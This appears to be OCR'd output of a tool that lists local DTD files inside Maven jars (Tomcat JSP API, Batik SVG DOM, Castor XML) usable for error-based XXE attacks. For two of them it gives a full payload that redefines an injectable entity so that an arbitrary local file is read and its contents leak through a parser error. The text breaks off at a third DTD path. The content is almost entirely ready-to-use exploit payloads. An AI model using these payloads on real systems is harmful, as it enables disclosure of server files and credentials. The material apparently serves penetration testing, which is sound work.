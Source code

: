  --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/tomcat/tomcat-jsp-api/7.0.59/tomcat-jsp-api-7.0.59.jar!/javax/servlet/jsp/resources/jspxml.dtd`

**Injectable entity:** `%URI`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/tomcat/tomcat-jsp-api/7.0.59/tomcat-jsp-api-7.0.59.jar!/javax/servlet/jsp/resources/jspxml.dtd">

    <!ENTITY % URI '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/xmlgraphics/batik-svg-dom/1.7/batik-svg-dom-1.7.jar!/org/apache/batik/dom/svg/resources/svg10.dtd`

**Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/xmlgraphics/batik-svg-dom/1.7/batik-svg-dom-1.7.jar!/org/apache/batik/dom/svg/resources/svg10.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/codehaus/castor/castor-xml/1.3.3/castor-xml-1.3.3.jar!/org/exolab/castor/dsml/schema/dsml.dtd`
